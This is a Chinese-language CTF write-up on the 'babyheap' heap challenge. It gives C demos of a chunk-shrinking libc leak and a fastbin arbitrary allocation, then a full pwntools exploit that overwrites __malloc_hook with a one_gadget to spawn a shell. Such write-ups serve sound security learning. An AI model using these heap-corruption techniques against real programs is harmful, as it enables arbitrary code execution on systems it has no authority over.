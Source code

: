 ```yaml
---

layout: post

title: 'babyheap学习总结'

date: '2018-01-17'

header-img: "img/home-bg.jpg"

tags:
     - pwn 堆利用  
author: 'De4dCr0w'

---
```


<!-- more -->

### 漏洞原型

#### （1）通过shrink the chunk来leak libc地址

shrink the chunk demo 代码：



```
#include <stdlib.h>
#include <stdio.h>

int main()
{
    int i;
    char data[100];
    memset(data,'\x00',sizeof(data));
    char *A = malloc(0x30);
    char *B = malloc(0x160);
    char *C = malloc(0xf0);

    free(B);
    free(A);

    malloc(0x38);

    while(i < 0x38)
        data[i++] = 'a';
    data[i] = '\x00';

    memcpy(A,data,0x39);

    malloc(0x80);

    malloc(0x30);

    free(B);

    free(C);

    char *D = malloc(0x260);

    printf("info_leak_libc:%p\n",*(unsigned long *)(D+0x90));

    return 0;
}

```

泄露信息libc 地址的对布局过程：

![image](https://raw.githubusercontent.com/De4dCr0w/De4dCr0w.github.io/master/image/babyheap/leakinfo.jpg)

泄露出来的只是main_arena+x的地址，而main_arena的地址位于__malloc_hook+0x10的地方，所以  
main_arena_offset = __malloc_hook_offset+0x10  
x = leak_address - (__malloc_hook_address+0x10)
libc_base_address = leak_address - (x + main_arena_offset)

最后只要求出泄露出来的地址和libc基地址的偏移就行：  
offset = leak_address - __malloc_hook_address + __malloc_hook_offset

计算 main_arena的偏移有个工具可以使用：  https://github.com/Escapingbug/get_main_arena

#### （2）通过fastbin attack修改程序流程

atbitrary alloc demo代码：

```
int main(void)
{


    void *chunk1;
    void *chunk_a;

    chunk1=malloc(0x60);

    free(chunk1);

    *(long long *)chunk1=0x7ffff7dd1b05;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```

### exp代码

```
from pwn import *

#context.terminal = ['tmux', 'splitw', '-h']

context.log_level = 'debug'

def Allocate(size):
    p.recvuntil("Command: ")
    p.sendline("1")
    p.recvuntil("Size:")
    p.sendline(str(size))
#    index = p.recvuntil("1. Allocate").split(' ')[3].split('\n')[0]
    index =1
    return index

def Fill(index,size,content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index:")
    p.sendline(str(index))
    p.recvuntil("Size:")
    p.sendline(str(size))
    p.recvuntil("Content:")
    p.sendline(content)



def Free(index):
    p.recvuntil("Command: ")
    p.sendline("3")
    p.recvuntil("Index:")
    p.sendline(str(index))

def Dump(index):
    p.recvuntil("Command: ")
    p.sendline("4")
    p.recvuntil("Index:")
    p.sendline(str(index))
    p.recvuntil("Content: \n")
    data = p.recvline()
    return data

def Exit():
    pass


if __name__=='__main__':

    env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6_b86ec517ee44b2d6c03096e0518c72a1")}

    p = process("./babyheap",env=env)
#    libc = ELF("./libc.so.6.my")
    libc = ELF("./libc.so.6_b86ec517ee44b2d6c03096e0518c72a1")
    libc.symbols['one_gadget'] = 0x41374
    libc_offset = 0x3a5678
 
    index0 = Allocate(16)
    index1 = Allocate(480)
    index2 = Allocate(512)
    index3 = Allocate(512)

    #gdb.attach(p)
    Free(1)

    payload = 'a'*24 + '\x30'
    Fill(0,25,payload)

    index4 = Allocate(128) #index:1
    index5 = Allocate(96) #index:4

    Free(1)
    Free(2)

    Allocate(128) #index:1
    data = Dump(4)
    data = u64(data[:8])
    print hex(data)
    libc.address = data - libc_offset
	
    payload = 'b'*0x80+p64(0x90)+p64(0x70)
    #payload = flat('b'*0x80,0x90,0x70)
    Fill(1,len(payload),payload)
    Free(4) #释放了0x70的堆块
     
  
    payload = 'c'*0x80+p64(0x90)+p64(0x70)
    payload += p64(libc.symbols['__malloc_hook']-0x23)

    #错位构造出一个0x000000000000007f

    Fill(1,len(payload),payload); #修改0x70的堆块的fd值
    Allocate(96) #index:2 重新申请到0x70的堆块，此时calloc会擦除fd和bk的数据，但是之前的fd会被保存在main_arena上
    Allocate(96) #index:4 根据伪造的fd地址，申请到__malloc_hook-0x23的位置

    gdb.attach(p)

    payload = 'd'*19 + p64(libc.symbols['one_gadget'])#覆盖__malloc_hook为/bin/sh的地址，0x23 -0x10（header）= 0x13 = 19,所以覆盖19个'd'后，再覆盖就是__malloc_hook的地址了。
    Fill(4,len(payload),payload)

    Allocate(96)
    p.interactive()

```

最后更改malloc_hook最后调用/bin/sh了，这里还有一个工具，用来找libc里的magic gadget，也就是将控制流放到这就能调用/bin/sh而不用考虑参数的问题的：  
https://github.com/david942j/one_gadget/tree/master/spec

### 参考链接

https://ctf-wiki.github.io/ctf-wiki/pwn/heap/fastbin_attack.html

https://poning.me/2017/03/24/baby-heap-2017/

https://github.com/david942j/one_gadget
